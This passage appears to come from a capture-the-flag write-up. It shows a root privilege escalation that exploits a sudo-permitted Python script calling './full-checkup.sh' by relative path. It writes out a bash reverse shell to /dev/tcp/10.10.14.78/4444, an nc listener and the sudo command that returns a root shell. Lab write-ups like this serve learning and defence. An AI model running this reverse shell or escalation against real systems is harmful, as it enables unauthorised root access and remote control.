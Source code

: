 ```python
elif action == 'docker-ps':
  # [...]

elif action == 'full-checkup':
  try:
    arg_list = ['./full-checkup.sh']
    print(run_command(arg_list))
    print('[+] Done!')
  except:
    print('Something went wrong')
    exit(1)
```

Here's our way out of here. In the `arg_list` variable (line 25), the script searches for a file with the path `./full-checkup.sh`, which is relative to the user's current execution location. By creating our own `full-checkup.sh` file (with malicious code), we can escalate privileges to root.

```bash
cd /tmp 
vim full-checkup.sh 
```

Inside the file:

```vim
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.78/4444 0>&1
```

Finally, the icing on the cake is:

```shell 
(local) $ nc -lvp 4444
$ chmod +x full-checkup.sh 
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
# whoami
root
```
